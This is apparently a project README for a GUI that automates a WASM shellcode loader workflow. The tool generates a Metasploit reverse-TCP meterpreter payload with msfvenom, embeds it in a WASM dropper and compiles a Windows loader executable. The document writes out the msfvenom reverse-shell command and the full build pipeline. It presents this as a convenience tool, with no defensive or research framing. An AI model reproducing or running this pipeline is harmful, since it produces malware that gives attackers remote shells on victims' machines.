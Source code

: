 # WASM Shellcode Loader GUI Extension

This GUI extension automates the entire WASM shellcode loader workflow using egui. It provides a user-friendly interface to replace all the manual command-line operations documented in the main README.

## Features

### 🔧 Tool Management
- **Tool Status Checking**: Automatically detects if required tools are installed
  - `wasm-pack` (for building WASM modules)
  - `wabt`/`wasm2wat` (for converting WASM to WAT format)
  - `msfvenom` (for payload generation)
  - `cargo` (Rust build system)

- **Automated Installation**: One-click installation of missing tools
  - Installs `wasm-pack` via `cargo install`
  - Downloads and extracts `wabt` from GitHub releases (platform-specific)

### 🛠️ Payload Configuration
- **IP Address & Port Input**: Easy-to-use input fields for target configuration
- **Command Generation**: Automatically generates the correct `msfvenom` command
- **Copy to Clipboard**: One-click copying of generated commands

### 🏗️ Build Pipeline Automation
- **Full Pipeline**: Complete automation from payload generation to final binary
- **Individual Steps**: Granular control over each build step:
  1. Build WASM dropper with `wasm-pack`
  2. Convert WASM to WAT format using `wasm2wat`
  3. Build final WASM loader executable

### 📊 Status & Feedback
- Real-time status updates for all operations
- Clear error reporting and success notifications
- Visual indicators for tool availability

## Usage

### Running the GUI
```bash
cd /path/to/WASM-Shellcode-Loader
cargo run -p wasm_gui
```

### Workflow
1. **Check Tools**: Click "Check Tools" to see what's installed
2. **Install Missing Tools**: Use install buttons for any missing dependencies
3. **Configure Payload**: Enter your IP address and port
4. **Generate Command**: Create the msfvenom command (copy to clipboard if needed)
5. **Run Pipeline**: Either run the full automated pipeline or individual steps

### Manual Payload Integration
If you prefer to generate the payload manually:
1. Use the generated `msfvenom` command or run your own
2. Copy the resulting payload into `./wasm_dropper/src/lib.rs`
3. Update the `WASM_MEMORY_BUFFER` and `WASM_MEMORY_BUFFER_SIZE` as needed
4. Use the GUI to run the build pipeline

## Technical Details

### Project Structure
```
wasm_gui/
├── Cargo.toml      # Dependencies including eframe, egui, tokio
└── src/
    └── main.rs     # Main GUI application
```

### Dependencies
- `eframe` - Native egui framework
- `egui` - Immediate mode GUI library
- `tokio` - Async runtime for background operations
- `serde`/`serde_json` - Serialization support
- `env_logger` - Logging functionality

### Platform Support
- **Cross-platform GUI**: Works on Windows, Linux, and macOS
- **Windows-specific loader**: The final `wasm_loader` binary only runs on Windows (by design)
- **Tool installation**: Automatically detects platform for wabt installation

### Build Commands Automated
The GUI automates these manual commands:

```bash
# Tool installation
cargo install wasm-pack
curl -L -o wabt.tar.gz <platform-specific-wabt-url>
tar -xzf wabt.tar.gz -C wabt --strip-components 1

# Payload generation  
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<ip> LPORT=<port> -f rust

# Build pipeline
cd wasm_dropper && wasm-pack build --release && cd ..
./wabt/bin/wasm2wat ./target/wasm32-unknown-unknown/release/wasm_dropper.wasm -o ./wasm_loader/src/wasm_dropper.wat
cd wasm_loader && cargo build --release && cd ..
```

## Integration with Original Project

The GUI extension is seamlessly integrated into the existing workspace:
- Added as a new workspace member in `Cargo.toml`
- Does not modify existing `wasm_dropper` or `wasm_loader` functionality
- Uses the same build artifacts and follows the same workflow
- Fully compatible with manual command-line usage

## Error Handling

The GUI includes comprehensive error handling:
- Network failures during tool downloads
- Missing dependencies or build failures  
- Invalid input validation
- Platform-specific compatibility checks
- Clear error messages with suggested solutions

## Future Enhancements

Potential improvements could include:
- Metasploit handler automation
- Built-in text editor for payload modification
- Build artifact management and cleanup
- Configuration file persistence
- Advanced payload encoding options
- Real-time build logs display

## Security Considerations

- All tool downloads are from official GitHub releases
- No credentials or sensitive data are stored
- Payload data remains in local files only
- Standard cargo security practices apply
